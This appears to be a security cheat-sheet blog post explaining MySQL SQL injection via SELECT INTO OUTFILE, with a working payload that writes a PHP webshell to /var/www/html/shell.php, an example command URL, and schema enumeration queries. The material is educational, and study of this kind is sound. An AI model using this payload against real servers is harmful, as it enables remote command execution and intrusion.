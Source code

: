 ```yaml
---
layout: post
title: "SQLi: MySQL"
date: 2023-06-19
categories:
  - CHEATSHEET
tags:
  - SQLi
---
```


In an SQL injection scenario using `SELECT INTO OUTFILE`, an attacker might exploit the vulnerability to upload a webshell onto the server.  


### Example Scenario:

Imagine a website feature that allows users to export transaction details to a CSV file using a user-input controlled query, similar to the following:

```sql
SELECT transaction_details FROM transactions WHERE user_id = 'user_input';
```

An attacker could manipulate the `user_input` to end the initial query and append a malicious `SELECT INTO OUTFILE` command to upload a webshell:

```sql
1'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'
```

#### Breakdown of the Injection:

1. **Termination of Original Query**: The attacker terminates the intended SQL query by injecting `1';` which effectively closes the user input for `user_id`.
2. **Webshell Payload**: The attacker starts a new query with `SELECT`, where the content to be selected is a PHP script: `<?php system($_GET["cmd"]); ?>`. This PHP script is a simple webshell that executes commands passed to it via the `cmd` GET parameter.
3. **File Creation**: The payload is written into a new file named `shell.php` in the `/var/www/html/` directory, which is typically accessible via the web browser.

#### Result of the Exploit:

If the server permissions allow writing files in the web directory and the application is vulnerable to SQL injection, this will create a file named `shell.php`. An attacker can then access this file via a web browser and execute server commands by appending a `cmd` parameter to the URL:

```shell
http://example.com/shell.php?cmd=whoami
```


<br><br>
> ***MySQL schema tips:***
> 
> ```sql
>    SHOW DATABASES;
>    
>    SELECT DATABASE();
>
>    SHOW TABLES;
> ```



 

